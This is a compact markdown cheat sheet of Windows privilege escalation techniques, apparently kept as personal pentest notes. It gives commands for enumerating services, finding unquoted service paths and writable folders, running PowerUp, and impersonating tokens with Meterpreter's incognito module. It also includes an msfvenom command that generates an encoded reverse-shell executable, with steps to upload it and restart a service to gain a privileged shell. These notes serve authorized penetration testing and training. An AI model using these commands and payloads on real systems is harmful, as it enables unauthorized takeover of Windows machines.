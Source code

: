 # Windows Privilege Escalation
## Enumeration
- List installed products
```cmd
wmic product
wmic product get name,version,vendor
```
- List services
```cmd
wmic service list brief
get-service
wmic service list brief | findstr  "Running"
```

## Misconfiguration
- List unquoted services
```
wmic service get name,displayname,pathname,startmode
```
- Find writable folders
```
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
```
- DLL Hijacking
- Privileges

## PowerUp.ps1
- Dot source the script and launch checks
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```
- Look for CanRestart=True and modifiable executable services
- Generate an exe payload with MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -e x86/shikata_ga_nai -f exe -o file.exe
```
- Upload the payload and restart the service to get root shell

## Token Impersonation
- check current user's privileges
```
whoami /priv
```
- Look for abusable privileges
```
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
```

### Search for local exploit using Metasploit
```sh
use post/multi/recon/local_exploit_suggester
```

### Meterpreter Incognito module
```sh
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrator"
# Search for a process running under the same account that has been impersonated
ps
migrate pid
```

## Links
___
### Guides
- https://lolbas-project.github.io/

